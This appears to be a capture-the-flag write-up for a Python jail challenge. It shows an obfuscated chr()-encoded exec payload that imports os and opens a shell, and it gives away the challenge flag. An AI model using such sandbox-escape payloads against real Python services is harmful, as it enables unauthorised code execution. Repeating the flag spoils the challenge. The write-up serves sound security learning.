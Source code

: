 # nehebkaus trap
> In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

## About the Challenge
Classic pyjail chall :D


[Image extracted text: )0oo _
[ Nehebkau
5 Trap
You
are
trapped!
Can
you
escape?]


## How to Solve?
There is a some restriction, if we input

```
print(globals())
```

You can see the blacklist character


[Image extracted text: Object
at
Ux/t+2u809/c10>
spec :
None ,
annot
file
/home/ctf] Ijail.py'
cached
None
BLACKLIST'
t Oxzff2086f3d90> ,
banner
<function banner
at Oxzff]


But we can still use some useful function, for example `breakpoint` or `exec`. In this case im using `exec` function to escape from the sandbox

```
exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(115)+chr(104)+chr(39)+chr(41))
```

This payload will import `os` package and using `system` function


[Image extracted text: exec
(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr
40)+chr(39)+chr(111)+cht
(115)+chr(39)+chr(41)+chr
46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(115)+chr(104)+c
hr(39)+chr(41))
txt
jail.py
cat flag-txt
HTB{yOu_d3f34t3d_th3_
sn4k3_gOd! }
flag]


```
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!} 
```